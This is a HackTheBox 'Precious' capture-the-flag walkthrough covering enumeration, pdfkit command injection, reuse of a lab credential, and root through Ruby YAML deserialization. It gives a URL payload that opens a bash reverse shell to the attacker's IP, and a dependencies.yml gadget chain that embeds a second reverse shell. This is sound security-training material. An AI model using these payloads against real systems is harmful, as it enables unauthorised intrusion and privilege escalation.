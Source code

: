 ```yaml
---
title: "Precious"
date: 2024-07-03
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "precious", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Credentials

| Username | Password           | Hash | Source           |
| -------- | ------------------ | ---- | ---------------- |
| ruby     |                    |      |                  |
| henry    | Q3c1AqGHtoI0aXAYFH |      | ~/.bundle/config |

## Enumeration

>- Testing the form for command injection works, and downloads a pdf file. 
- Using exiftool to view metadata of the downloaded pdf file, pdfkit v0.8.6 is revealed. 

### Nmap

```sh
Nmap scan report for 10.10.11.189
Host is up, received user-set (0.019s latency).
Scanned at 2024-07-05 06:58:11 AEST for 17s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
...
80/tcp open  http    syn-ack nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

### Gobuster

```sh
gobuster vhost -u http://precious.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
```

### Web

![screenshot](/assets/images/precious1.png)

### Burpsuite

![screenshot](/assets/images/precious2.png)

#### Form testing

![screenshot](/assets/images/precious3.png)

![screenshot](/assets/images/precious5.png)

![screenshot](/assets/images/precious4.png)

![screenshot](/assets/images/precious6.png)

downloads a pdf file. 

![screenshot](/assets/images/precious7.png)

## Initial Access

>- Following the PoC for pdfkit v0.8.6 gains initial shell as ruby user.
	-  Start a local python server, perform command injection for reverse shell.

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![screenshot](/assets/images/precious8.png)

```sh
# modified payload
http://10.10.14.16/www/%20`bash -c 'bash -i >& /dev/tcp/10.10.14.16/9001 0>&1'`
```

![screenshot](/assets/images/precious9.png)

![screenshot](/assets/images/precious10.png)

## Lateral Movement

>-  `/.bundle/conf` within the ruby user's home folder contains credentials for henry user. 
- SSH as henry.

![screenshot](/assets/images/precious11.png)

SSH as henry

![screenshot](/assets/images/precious12.png)

## Privilege Escalation

>- `sudo -l`
- Henry user has privileges to run ruby script. 
- The ruby script does not execute because `dependencies.yml` is missing. 
- Searching for ruby dependencies.yml exploit returns many relevant results. 
- Add reverse shell code to the payload and execute the ruby script. 

![screenshot](/assets/images/precious13.png)

![screenshot](/assets/images/precious14.png)

`YAML.load(File.read("dependencied.yml"))`

![screenshot](/assets/images/precious15.png)

`dependencies.yml`

![screenshot](/assets/images/precious16.png)

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

![screenshot](/assets/images/precious17.png)

Payload `dependencies.yml`

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: http://10.10.14.16/www/%20`bash -c 'bash -i >& /dev/tcp/10.10.14.16/9002 0>&1'`
         method_id: :resolve
```

![screenshot](/assets/images/precious19.png)

![screenshot](/assets/images/precious18.png)

